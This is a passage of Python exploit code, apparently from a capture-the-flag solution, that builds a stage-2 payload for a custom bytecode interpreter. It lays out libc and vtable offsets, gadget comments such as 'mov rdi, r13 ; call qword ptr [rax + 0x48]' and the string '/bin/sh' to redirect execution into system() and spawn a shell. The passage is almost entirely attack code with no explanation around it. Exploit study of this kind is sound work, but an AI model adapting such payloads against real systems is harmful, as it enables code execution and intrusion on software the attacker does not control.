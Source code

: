```py

payload += _ill()

######################## continue stage 2 payload

payload += _tat()*0x100
payload += _jmp(0x174) # 0x172
payload += p16(0x1b2)

payload += p16(0xf78) # 0x176 # libc
payload += p16(0xf7a) # 0x178
payload += p16(0xf7c) # 0x17a

payload += p16(0xfd8) # 0x17c # vtable
payload += p16(0xfda) # 0x17e
payload += p16(0xfdc) # 0x180

payload += p16(0x4000) # 0x182 # target
payload += p16(0x4002) # 0x184
payload += p16(0x4004) # 0x186

# mov rdi, r13 ; call qword ptr [rax + 0x48]
payload += p16(0x14) # 0x188 # off2
payload += p16(0x61c9) # 0x18a # off1
payload += p16(0x4130) # 0x18c # off heap

payload += p16(0x4040) # 0x18e # target
payload += p16(0x4042) # 0x190
payload += p16(0x4044) # 0x192

payload += p16(0x45) # 0x194 # off2 system
payload += p16(0x68b0) # 0x196 # off1 system

payload += p16(0x3ff8) # 0x198 # target
payload += p16(0x3ffa) # 0x19a
payload += p16(0x3ffc) # 0x19c
payload += p16(0x3ffe) # 0x19e

payload += b"/b" # 0x1a0
payload += b"in" # 0x1a2
payload += b"/s" # 0x1a4
payload += b"h\x00" # 0x1a6

# mov r13, rax ; mov rax, qword ptr [rdi] ; call qword ptr [rax + 0x40]
payload += p16(0x1b) # 0x1a8 # off2 
payload += p16(0x7024) # 0x1aa # off1 

payload += p16(0x4038) # 0x1ac # target
payload += p16(0x403a) # 0x1ae
payload += p16(0x403c) # 0x1b0

payload += _ldc(0xf78) # 0x1b2
payload += _sbc(0x18a)
payload += _tat()
payload += _lda(0x182)
payload += _stt()
payload += _lda(0xf7a)
payload += _sbc(0x188)
payload += _tat()
payload += _lda(0x184)
payload += _stt()
payload += _lda(0xf7c)
payload += _tat()
```